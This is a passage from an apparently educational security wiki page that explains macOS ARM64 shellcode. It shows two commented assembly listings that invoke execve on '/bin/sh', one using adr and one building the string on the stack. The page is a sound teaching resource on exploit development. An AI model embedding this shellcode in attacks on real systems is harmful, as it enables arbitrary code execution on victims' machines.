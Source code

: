 <details><summary>C code to test the shellcode</summary></details>

#### Shell

Taken from [**here**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) and explained.

{% tabs %}
{% tab title="with adr" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:    
    adr  x0, sh_path  ; This is the address of "/bin/sh".
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.    
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}

{% tab title="with stack" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
    ; We are going to build the string "/bin/sh" and place it on the stack.
    
    mov  x1, #0x622F  ; Move the lower half of "/bi" into x1. 0x62 = 'b', 0x2F = '/'.
    movk x1, #0x6E69, lsl #16 ; Move the next half of "/bin" into x1, shifted left by 16. 0x6E = 'n', 0x69 = 'i'.
    movk x1, #0x732F, lsl #32 ; Move the first half of "/sh" into x1, shifted left by 32. 0x73 = 's', 0x2F = '/'.
    movk x1, #0x68, lsl #48   ; Move the last part of "/sh" into x1, shifted left by 48. 0x68 = 'h'.

    str  x1, [sp, #-8] ; Store the value of x1 (the "/bin/sh" string) at the location `sp - 8`.

    ; Prepare arguments for the execve syscall.
    
    mov  x1, #8       ; Set x1 to 8.
    sub  x0, sp, x1   ; Subtract x1 (8) from the stack pointer (sp) and store the result in x0. This is the address of "/bin/sh" string on the stack.
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.

    ; Make the syscall.
    
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.
```